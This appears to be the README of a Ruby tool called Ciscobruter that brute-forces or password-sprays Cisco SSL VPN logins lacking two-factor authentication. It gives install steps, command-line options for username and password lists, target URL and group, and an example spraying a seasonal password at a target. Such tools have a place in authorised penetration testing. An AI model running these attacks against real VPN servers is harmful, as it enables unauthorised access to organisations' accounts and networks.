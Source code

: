 Ciscobruter.rb
==============
Brute force Cisco SSL VPN's that don't use 2-factor authentication


Install:
--------
Simply clone this repo and run

	$ bundle install


Help:
-----
	$ ./ciscobruter.rb -h
	ciscobruter.rb VERSION: 1.0.0 - UPDATED: 01/20/2016

	    -u, --username   [Username]      	Username to guess passwords against
	    -p, --password   [Password]      	Password to try with username
	    -U, --user-file  [File Path]     	File containing list of usernames
	    -P, --pass-file  [File Path]     	File containing list of passwords
	    -t, --target     [URL]           	Target VPN server example: https://vpn.target.com
	    -l, --login-path [Login Path]    	Path to login page.  Default: /+webvpn+/index.html
	    -g, --group      [Group Name]    	Group name for VPN.  Default: No Group   
	    -v, --verbose                    	Enables verbose output


Example:
--------
	$ ./ciscobruter.rb -t https://vpn.targetserver.com -U usernames.txt -p "Winter2015!"
